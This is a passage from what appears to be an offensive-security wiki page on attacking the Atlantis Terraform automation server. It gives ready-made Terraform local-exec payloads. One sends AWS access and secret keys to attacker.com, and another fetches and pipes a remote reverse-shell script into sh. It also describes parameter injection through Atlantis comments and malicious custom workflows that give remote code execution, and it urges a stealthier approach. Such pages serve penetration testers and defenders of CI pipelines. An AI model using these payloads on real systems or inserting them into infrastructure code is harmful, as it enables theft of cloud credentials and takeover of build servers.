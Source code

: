 Running **`terraform apply` on a malicious Terraform file with** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
&#x20;**** You just need to make sure some payload like the following ones ends in the `main.tf` file:

```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
  provisioner "local-exec" {
    command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
  }
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
  provisioner "local-exec" {
    command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
  }
}
```

Follow the **suggestions from the previous technique** the perform this attack in a **stealthier way**.

### Terraform Param Injection

When running `atlantis plan` or `atlantis apply` terraform is being run under-needs, you can pass commands to terraform from atlantis commenting something like:

```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```

Something you can pass are env variables which might be helpful to bypass some protections. Check terraform env vars in [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Custom Workflow

Running **malicious custom build commands** specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** of `master`.\
This possibility was mentioned in a previous section:

{% hint style="danger" %}
If the [**server side config**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) flag **** `allow_custom_workflows` is set to **True**, workflows can be **specified** in the **`atlantis.yaml`** file of each repo. It's also potentially needed that **`allowed_overrides`** specifies also **`workflow`** to **override the workflow** that is going to be used.

This will basically give **RCE in the Atlantis server to any user that can access that repo**.
